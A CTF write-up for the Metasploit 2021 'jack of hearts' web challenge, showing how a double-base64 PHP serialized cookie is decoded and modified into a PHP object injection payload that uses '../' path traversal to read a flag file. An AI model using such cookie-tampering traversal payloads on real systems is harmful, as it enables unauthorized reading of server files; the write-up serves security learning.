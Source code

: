 ```yaml
---
layout: load_md
title: The White Circle | Metasploit 2021 | jack of hearts Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Metasploit 2021
parent: metasploit_2021
category: jack_of_hearts
challenge: jack of hearts
tags: "web, twh, php object injection"
date: 2021-12-08T00:00:00+00:00
last_update: 2021-12-08T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Metasploit 2021</h1>
## jack of hearts

> Solved By : thewhiteh4t

```
Port : 20022
```

- User cookie is double base64 encoded, so we double decoded and ended up with the following :

```
O:4:"user":3:{
    s:8:"username";s:4:"user";
    s:5:"admin";b:0;
    s:11:"profile_img";s:23:"/var/www/html/guest.png";
}
```

```
O   -> Object
O:4 -> Object of length 4
:3: -> Object has 3 attributes
s   -> String data type
s:8 -> String of length 8
b   -> Boolean data type
b:0 -> False
```

- This was a **PHP Object Injection** challenge
- The goal of this challenge was not to become admin and if we try then the server sends hints or funny responses
- Directly accessing the flag did not work so we can simply use `../`
- Final payload :

```
O:4:"user":3:{
    s:8:"username";s:4:"user";
    s:5:"admin";b:0;
    s:11:"profile_img";s:40:"/var/www/html/../../../../../../flag.png";
}
```

![](https://i.imgur.com/JGNO34j.png)